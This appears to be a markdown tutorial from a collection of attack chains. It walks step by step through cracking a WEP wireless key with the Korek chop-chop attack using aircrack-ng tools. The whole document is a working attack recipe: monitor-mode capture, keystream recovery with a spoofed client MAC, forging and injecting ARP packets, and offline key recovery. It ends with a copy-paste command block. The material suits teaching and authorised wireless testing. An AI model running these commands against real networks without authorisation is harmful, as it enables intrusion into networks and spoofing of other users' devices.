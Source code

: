 # Chain #21: Korek Chop Chop Attack

Short purpose: when fragmentation isn’t working (or is unreliable), use the Korek _chop‑chop_ attack to decrypt a captured WEP packet **byte‑by‑byte** using ICV/CRC32 feedback, recover ~1500 bytes of PRGA (.xor), forge an ARP request, replay it to mass‑generate IVs, and crack the WEP key offline.

---

## Key terms (fast refresher)

- **WEP / RC4 / PRGA** — WEP encrypts by XORing plaintext with an RC4 keystream (PRGA) per IV.
- **ICV (Integrity Check Value)** — 4‑byte CRC‑32 over plaintext; AP drops frames with bad ICV. Chop‑chop exploits this accept/drop signal to infer bytes.
- **Chop‑chop (Korek)** — iteratively trims the last byte of a ciphertext and guesses it until the AP accepts the recomputed ICV; reveals plaintext and keystream.
- **.xor (PRGA file)** — the recovered keystream used by `packetforge-ng` to encrypt forged frames (e.g., ARP request).

---

## Step‑by‑step workflow (concise)

1. Enable **monitor mode** → 
2. **Capture** traffic from target AP → 
3. Run **chop‑chop** to produce PRGA `.xor` and a decrypted `.cap` → 
4. Inspect decrypted packet for IP/MACs → 
5. **Forge ARP** with `packetforge-ng` using `.xor` → 
6. **Inject** forged ARP (interactive replay) → 
7. Optionally add **ARP replay** for more IVs → 
8. **Crack** WEP with `aircrack-ng`.

---

## Commands — statement‑by‑statement explanations

### 1) Enable monitor mode

```bash
sudo airmon-ng start wlan0
```

- **`sudo`**: requires root to change wireless modes.
- **`airmon-ng`**: helper to enable monitor mode interfaces.
- **`start wlan0`**: puts physical `wlan0` into monitor mode (usually creates `wlan0mon`).
- **Expected notes**: kill `NetworkManager`/`wpa_supplicant` if prompted; confirm chipset/driver; new iface typically `wlan0mon`.

Verify:

```bash
iwconfig
```

- **Goal**: confirm `Mode:Monitor`, channel, and power settings on `wlan0mon`.

---

### 2) Capture target AP traffic

```bash
airodump-ng wlan0mon -c 1 -w WEP
```

- **`airodump-ng`**: passive capture + display of APs/clients.    
- **`wlan0mon`**: interface in monitor mode.
- **`-c 1`**: lock to channel 1 (matches target AP).
- **`-w WEP`**: write capture files with prefix `WEP` → e.g., `WEP-01.cap`.
- **What to watch**: target **BSSID**, **ESSID**, `#Data` rising, and associated **STATION** MACs.

---

### 3) Run Korek chop‑chop to recover PRGA

```bash
aireplay-ng -4 -b C8:D1:4D:EA:21:A6 -h 7E:8D:FC:DD:D7:2C wlan0mon
```

- **`aireplay-ng`**: injection/replay tool.    
- **`-4`**: Korek chop‑chop attack mode.
- **`-b <BSSID>`**: target AP’s MAC (here `C8:D1:4D:EA:21:A6`).
- **`-h <SRC_MAC>`**: _source MAC_ to spoof; should be associated or belong to a connected station for reliability (here `7E:8D:FC:DD:D7:2C`).
- **`wlan0mon`**: monitor interface used for injection.
- **Common prompt**: if interface MAC ≠ `-h`, set it as suggested (e.g., `ifconfig wlan0mon hw ether 7E:8D:FC:DD:D7:2C`).
- **Flow you’ll see**:
    - Tool waits for a **data packet** from STA→AP.
    - When one appears, it asks _“Use this packet?”_ → answer `y`.
    - Progress lines like `Offset 87 ...` show bytes being solved. If AP drops very short frames, the tool enables **IP header re‑creation** automatically.
- **Outputs produced**:
    - `replay_dec-<time>.cap` — decrypted packet.
    - `replay_dec-<time>.xor` — recovered keystream (PRGA).

---

### 4) Inspect decrypted packet for addressing

```bash
tcpdump -s 0 -n -e -r replay_dec-0805-221220.cap
```

- **`tcpdump`**: CLI packet analyzer.
- **`-s 0`**: capture/show full packet (no snaplen truncation).
- **`-n`**: no DNS resolution → faster, shows raw IPs.
- **`-e`**: print link‑layer (802.11) headers (BSSID/SA/DA).
- **`-r <file>`**: read from the saved cap.
- **Goal**: extract **AP IP**, **station IP**, and confirm MACs from the line showing `ethertype IPv4` (e.g., `192.168.1.75 > 192.168.1.1`).

---

### 5) Forge an ARP request using the PRGA

```bash
packetforge-ng -0 -a C8:D1:4D:EA:21:A6 -h 7E:8D:FC:DD:D7:2C -k 192.168.1.1 -l 192.168.1.75 -y replay_dec-0805-221220.xor -w forgedarp.cap
```

- **`packetforge-ng`**: builds **encrypted** frames using a PRGA `.xor`.    
- **`-0`** (zero): create an **ARP request** (most replay‑friendly).
- **`-a <AP_BSSID>`**: AP’s MAC (destination BSSID).
- **`-h <STA_MAC>`**: source station MAC to spoof.
- **`-k <AP_IP>`**: target IP for ARP (gateway, often `192.168.1.1`).
- **`-l <STA_IP>`**: source IP (client; here `192.168.1.75`).
- **`-y <file.xor>`**: PRGA keystream recovered by chop‑chop.
- **`-w forgedarp.cap`**: output capture with the forged ARP.
- **Tip (no IPs known)**: use broadcast placeholders `-k 255.255.255.255 -l 255.255.255.255` to still generate responses.

---

### 6) Inject the forged ARP (Interactive Packet Replay)

```bash
aireplay-ng -2 -r forgedarp.cap -h 7E:8D:FC:DD:D7:2C wlan0mon
```

- **`-2`**: interactive packet replay (prompts “Use this packet?”).
- **`-r <cap>`**: read the forged packet you created.
- **`-h <SRC_MAC>`**: inject using the chosen source MAC.
- **Effect**: AP rebroadcasts / replies, generating lots of **new IVs**.
- **How to monitor**: in `airodump-ng`, the `#Data` and the **Frames** count for the station should rise quickly.

---

### 7) (Optional) Accelerate with ARP replay

```bash
aireplay-ng -3 -b C8:D1:4D:EA:21:A6 -h 7E:8D:FC:DD:D7:2C wlan0mon
```

- **`-3`**: ARP request replay mode (captures and replays ARPs).    
- **`-b`**/**`-h`**: same AP/STA as before.
- **Benefit**: even faster IV generation; watch airodump stats soar.

---

### 8) Crack the WEP key from accumulated IVs

```bash
aircrack-ng -b C8:D1:4D:EA:21:A6 WEP-01.cap
```

- **`aircrack-ng`**: offline key recovery.
- **`-b <BSSID>`**: focus on the target AP only.
- **`WEP-01.cap`**: the capture containing IVs (from airodump).
- **Behavior**: starts PTW/Korek attack; once IVs are sufficient you’ll see `KEY FOUND! [ xx:xx:xx:xx:xx ]` and a high “Decrypted correctly” rate.

---

## Quick reference (copy/paste block)

```bash
# 1) Monitor mode
sudo airmon-ng start wlan0 && iwconfig

# 2) Capture
airodump-ng wlan0mon -c 1 -w WEP

# 3) Chop‑chop to get PRGA
aireplay-ng -4 -b <AP_BSSID> -h <STA_MAC> wlan0mon
# (accept packet → tool writes replay_dec-*.xor and replay_dec-*.cap)

# 4) Inspect decrypted packet
tcpdump -s 0 -n -e -r replay_dec-*.cap

# 5) Forge ARP with PRGA
packetforge-ng -0 -a <AP_BSSID> -h <STA_MAC> -k <AP_IP> -l <STA_IP> -y replay_dec-*.xor -w forgedarp.cap

# 6) Inject forged ARP (Interactive Replay)
aireplay-ng -2 -r forgedarp.cap -h <STA_MAC> wlan0mon

# 7) Optional: ARP replay boost
aireplay-ng -3 -b <AP_BSSID> -h <STA_MAC> wlan0mon

# 8) Crack WEP when IVs are high
aircrack-ng -b <AP_BSSID> WEP-01.cap
```

---

## Summary (one‑paragraph)

Korek chop‑chop exploits WEP’s CRC‑32 ICV and per‑packet RC4 to learn plaintext and PRGA one byte at a time by observing whether the AP accepts modified frames. The recovered PRGA (.xor) lets you forge a valid‑looking ARP request, inject and replay it to flood the network with traffic that yields many IVs, and finally crack the WEP key with `aircrack-ng`.